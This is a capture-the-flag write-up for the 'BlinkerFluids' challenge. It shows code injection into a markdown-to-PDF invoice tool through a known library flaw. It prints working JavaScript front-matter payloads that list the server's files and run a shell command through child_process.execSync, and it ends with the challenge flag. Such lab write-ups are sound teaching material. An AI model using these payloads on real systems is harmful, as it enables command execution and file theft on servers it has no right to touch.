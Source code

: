 # BlinkerFluids
> Write-up author: jon-brandy
## DESCRIPTION:
Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. 
The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. 
Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?
## HINT:
- NONE
## STEPS:
1. First, open the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214273575-71a1a116-e77c-4b78-b1f9-182231b3119a.png)


2. Let's try to see the pdf file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214273949-7f7e5773-32b8-4b91-a2b9-9cf8fdb88ab2.png)


3. Nothing that could be our interest here, so let's check the source code.

> RESULT - challenge - helpers

![image](https://user-images.githubusercontent.com/70703371/214274687-b6edf665-e6ef-4c59-8a60-461de194d9dc.png)


4. Next i did a small outsource about MD to PDF vulnerability and found out there's a CVE about it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214274957-8a8bed1b-1ef0-42d6-a59a-ae1a6d47d349.png)


5. Seems we can do RCE.
6. Checking the github issue and found another payload we can use.

![image](https://user-images.githubusercontent.com/70703371/214275839-a29d8ac3-3e27-45bf-b988-b58eb030e726.png)


7. Little bit confused for the first payload we got, but let's use the other one with more thumbs up :D.

![image](https://user-images.githubusercontent.com/70703371/214276416-57940a2d-9265-4b93-a0fa-0b838b63c4a5.png)


```js
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```


8. Copy the payload -> create new invoice -> paste the script -> save. Open the pdf file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214276705-3860a1d1-dd40-4fbf-bfc4-6613fbcd6d5c.png)


9. Great we listed all the files and directories, notice there's a `flag.txt` file. Now to cat the flag we can utilize the payload we got at first. Grab this one and modify the payload

![image](https://user-images.githubusercontent.com/70703371/214277375-b811ab01-d3e7-4cc4-a628-27ce858e1c0f.png)


> FROM

```js
---js
{
    css: `body::before { content: "${}"; display: block }`,
}
---
```

> TO

```js
---js
{
    css: `body::before { content: "${require('child_process').execSync('cat /flag.txt')}"; display: block }`,
}
---
```

10. Now create new invoice again -> paste the payload -> save it -> open the pdf.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214279170-37362676-1095-441b-bb16-8184de5056d6.png)


11. Got the flag!

## FLAG

```
HTB{int3rG4l4c7iC_r1d3_0n_bl1nk3r_flu1d5}
```

